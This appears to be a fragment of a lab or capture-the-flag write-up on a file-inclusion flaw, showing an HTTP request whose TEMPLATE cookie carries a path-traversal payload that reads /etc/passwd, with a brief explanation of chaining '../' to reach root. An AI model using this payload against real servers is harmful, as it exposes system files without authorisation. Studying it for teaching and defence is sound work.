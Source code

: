 ```

GET /vulnerable.php HTTP/1.0

Cookie: TEMPLATE=../../../../../../../../../etc/passwd

```

so the plan was to see if this will work if I tried to traverse the includes() until reaching the root directory.

This means consistently appending `../` until reaching the root directory.

\subsection{Tools}

\begin{figure}[!htb]
    \centering
     \quad
     \\
     \quad
     \quad

\end{figure}
